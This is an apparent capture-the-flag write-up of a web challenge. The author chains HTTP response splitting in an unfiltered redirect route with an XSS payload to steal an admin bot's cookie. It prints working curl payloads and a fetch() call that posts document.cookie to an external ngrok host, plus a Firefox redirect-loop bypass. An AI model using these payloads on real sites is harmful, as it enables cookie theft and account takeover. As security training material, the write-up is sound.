 # Custom HTTP Server (day8)

<p align="justify">In this web challenge the goal was to attack a javascript website and retreive the flag. No informations were given about the way to process nor the location of the flag, but application source code was provided (attached to this repo). </p>

<p align="center"><img src="Screenshots/S1.png" alt="Desc" style="width:40%"></p>

After a few read of the source code I spoted the snippet below giving me informations about the way I could have retreived the flag :

````javascript
const cookie = {
        name: 'FLAG',
        value: 'RM{REDACTED}',
        domain: '127.0.0.1',
        path: '/',
        httpOnly: false,
        secure: false,
      };
````

<p align="justify">Indeed the flag was actually javascript bot's cookie (playright) set on the local domain. As a matter of fact; the website offered a report method (in the file app.js : /api/report) in which it was possible to send an url to the bot, so that it could have checked it and as result be trapped. Hence to solve this challenge I had to find a way to exfiltrate the cookie through XSS attack.  The schema of the challenge had been the following one : </p>

- First, I had to find a way to steal my own cookie , craft a valid payload
- Then I had to adjust payload for firefox browser especially, because playright bot works over firefox
- Finaly I had to submit the payload on the report api so that the bot could have been trapped and sent its cookies

<p align="justify">At first I thought I had to bypass filter applied to XSS API as shown in the code snippet below. But after a few tries I gave up because of the sanitazer which was too restrictive (the filter is availabe under sanitizer.js in the source code zip) :</p>

````javascript
router.get('/api/xss', async (req, res) => {
  try {
      const { html } = req.query;
      const sanitized = Sanitizer.xss(html);
      res.html(sanitized);
  } catch (err) {
      res.badRequest();
  }
});
````

<p align="justify">I finaly spoted the redirect feature below, in which user input wasn't cleared nor processed; meaning it could have been exploited for injection and eventualy cross site scripting payload injection. Which looked interesting at this point : </p>

````javascript
router.get('/api/redirect', (req, res) => {
  const { url } = req.query;
  if (url) {
    res.redirect(url);
  } else {
    res.badRequest();
  }
});
````

<p align="justify">In this route, the user input was used to set the Location header for redirecting properly. Because of the lack of filters/CSP on the user input, it was possible possible to injecte the parameter to send the bot onto an external website. That's what I tried; I deployed a server and made the bot fetching it. It came useless because cookie's bot was defined on 127.0.0.1 meaning the bot was fetching my server with document.cookie variable empty. After a few read, I came up with the idea of using \n\r chars to overwritte redirect page thanks to this insightful article about http response splitting <a href="https://blog.detectify.com/industry-insights/http-response-splitting-exploitations-and-mitigations/">doc</a>. On burp browser (chrome based) the exploit worked well and I was able to steel my own cookies with the following payload : </p>

````bash
curl -G "http://dyn-01.xmas.root-me.org:24694/api/report" --data-urlencode "url=http://127.0.0.1:3000/api/redirect?url=%0D%0AContent-Type%3A%20text%2Fhtml%20%0A%0A%3Chtml%3E%3Cscript%3Efetch%28%27http%3A%2F%2F7.tcp.eu.ngrok.io%3A18440%2F%27%29%3C%2Fscript%3E%3C%2Fhtml%3E%0A%0A"
````
Actually, \r\n chars triggered a 302 page meaning that page had been found on the server and well overwritten. At this point it was satisfying insofar as the payload applied to the target domain: 

<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>

<p align="justify"> Nonetheless when testing the payload on firefox, it only triggered a redirect loop leading abortion by firefox itself after too many redirections. After searching for known bypass I found (thanks Vic_V2 !) this documenation <a href="https://www.gremwell.com/firefox-xss-302">doc</a>, in which the loop redirect issue had been solved using websocket in Location headers. Hence, I adjusted my payload but faced a last obstacle , the CORS headers. To solve this problem, I added the following parameters for fetching my external server to get around CORS restrictions: </p>

````javascript
fetch('http://7.tcp.eu.ngrok.io:18440/',
        {
                methode: 'POST',
                mode: 'no-cors',
                body: document.cookie
        }
)
````

Finally I came up with the final paylaod below :

````bash
curl -G "http://dyn-01.xmas.root-me.org:24694/api/report" --data-urlencode "url=http://127.0.0.1:3000/api/redirect?url=ws://google.com%0D%0AContent-Type%3A%20text%2Fhtml%20%0D%0A%0D%0A%3Chtml%3E%3Cscript%3Efetch%28%27http%3A%2F%2F7.tcp.eu.ngrok.io%3A18440%2F%27%2C%20%7Bmethode%3A%20%27POST%27%2C%20mode%3A%20%27no-cors%27%2C%20body%3A%20document.cookie%7D%29%3C%2Fscript%3E%3C%2Fhtml%3E%0A%0A"
````
After opening a listening port, I finally received the flag : 

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

Flag : _RM{Damnn_Chrome_And_Firefox_4re_S0_different}_ , thanks _Elweth_ for this challenge and a massive thanks to _Vic_V2_ for helping me out troubleshooting !


